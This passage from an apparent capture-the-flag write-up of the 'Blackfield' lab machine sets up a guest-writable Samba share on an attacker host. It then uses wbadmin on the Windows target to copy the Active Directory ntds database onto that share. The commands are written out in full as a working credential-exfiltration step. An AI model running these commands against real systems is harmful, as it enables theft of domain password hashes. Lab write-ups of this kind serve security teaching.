 The _ntfs.disk_ partition is now mounted on _/dev/loop0_:
```
losetup -a

/dev/loop0: [2049]:3672291 (/htb/boxes/blackfield/ntfs.disk)
```

Making it a NTFS partition and mounting it on a local folder:
```
mkfs.ntfs /dev/loop0

mount /dev/loop0 smb/
```
```
mount | grep smb

/dev/loop0 on /htb/boxes/blackfield/smb type fuseblk
```

As the **Impacket-Smbserver** cannot handle NTFS, the integrated **Samba service** on Linux will be used.

Modifying _/etc/samba/smb.conf_ to use the NTFS share:
```
[BlackfieldShare]
   comment = Blackfield Share
   browseable = yes
   path = /htb/boxes/blackfield/smb
   guest ok = yes
   read only = no
```

Starting the SMB service:
```
service smbd start
```

Mounting the new share on the Windows box:
```
net use x: /delete

net use X: \\10.10.14.9\BlackfieldShare
```

Using **wbadmin** again to backup the _C:/Windows/ntds_ folder:
```
echo y | wbadmin start backup -backuptarget:\\10.10.14.9\BlackfieldShare\ -include:C:\Windows\ntds
```

This time it works and creates a _WindowsImageBackup_ folder on our local client.
Getting the version identifier of the backup:
```
wbadmin get versions
```
```
Backup location: Network Share labeled \\10.10.14.9\BlackfieldShare\
Version identifier: 09/16/2021-23:02
```
